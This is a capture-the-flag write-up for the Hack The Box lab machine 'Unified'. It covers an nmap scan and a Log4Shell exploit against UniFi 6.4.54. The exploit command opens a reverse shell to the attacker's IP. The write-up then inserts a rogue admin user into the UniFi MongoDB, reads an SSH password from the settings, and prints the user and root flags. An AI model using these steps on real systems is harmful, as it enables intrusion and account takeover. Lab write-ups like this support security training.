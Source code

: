```yaml
---
layout: default
title: Unified
---
```


### Recon

we start as usual with `nmap`, using this command:
```bash
nmap -p- -sV --min-rate=10000 $target
``` 

![nmap](image.png)

As we can see there are several open ports:
```bash
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http            Apache Tomcat (language: en)
8443/tcp open  ssl/nagios-nsca Nagios NSCA
8843/tcp open  ssl/http        Apache Tomcat (language: en)
8880/tcp open  http            Apache Tomcat (language: en)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Access the webserver and exploit vulnerable version
when accessing the website at port `8080`, we get redirect to port `8443` and can see this page:

![website login page](image-1.png)

We can search for vulnerabilites of `UniFi 6.4.54`, and we find it vulnerable to log4shell.
This git repo https://github.com/puzzlepeaches/Log4jUnifi is jumping to me, we can see it has very simple steps in order to achieve reverse shell on this version.

So, let's follow the steps of the manual installation, and then just execute this command:
```bash
python3 exploit.py -u https://$target:8443 -i 10.10.14.162 -p 770
```
![get reverse shell](image-2.png)

Let's get normal shell, this time we can't use the regular spawning of `tty` using python, because it isn't installed on the system. 

We can use this:
```bash
script /dev/null -c bash
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

Now, let's achieve the user flag:
```bash
unifi@unified:/usr/lib/unifi$ cat /home/michael/user.txt
6ced1a6a89e666c0620cdb10262ba127
```

### Privilege escalation

We can follow this article, https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi.

Using `ps aux` we can see there is mongo-db that is running on port `27117`

```bash
unifi@unified:/usr/lib/unifi$ ps aux | grep mongo
unifi         68  0.1  4.1 1103744 85452 ?       Sl   13:20   0:08 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi       2037  0.0  0.0  11468  1112 pts/0    S+   14:29   0:00 grep mongo
```

Let's connect to this server, the default db name is `ace`, this is the command:
```bash
mongo --port 27117 ace
```

After connecting, we enumerate all users using this command, we can append db.`forEach(printjson)` at the end, to print it in easier format:
```
db.admin.find();
```

We want to insert another user to `db.admin`, with our hash, so let's generate the hash:
```bash
┌──(agonen㉿kali)-[~/htb/Unified/Log4jUnifi]
└─$ mkpasswd -m sha-512 ourSimplePassword
$6$1RTDf1hc/l8EhVG1$8gMEZhJ4kazHKqvbRw5kRdvZCEF48cAXscqt9fxoeE90sFa1p38shYmlWrP.HLXZ6VDvcD68pP.vQIYCRENYs0
```

And add it to the table, the username will be `elicopter` and password will be `ourSimplePassword`
```
db.admin.insert({ "email" : "elicopter@localhost.local","last_site_name" : "default", "name" : "elicopter","time_created" : NumberLong(100019800), "x_shadow" :"$6$1RTDf1hc/l8EhVG1$8gMEZhJ4kazHKqvbRw5kRdvZCEF48cAXscqt9fxoeE90sFa1p38shYmlWrP.HLXZ6VDvcD68pP.vQIYCRENYs0" });
```

![insert new user](image-3.png)

Now, we can login in the login page using our new user `elicopter` and the password `ourSimplePassword`.

After login in, we can go to settings, and search for the ssh password, which we find it to be `NotACrackablePassword4U2022`.

Okay, let's use it to ssh to the system from our machine, and achieve the root password.

![get root flag](image-4.png)

**User Flag:*****`6ced1a6a89e666c0620cdb10262ba127`***

**Root Flag:*****`e50bc93c75b634e4b272d2f771c33681`***

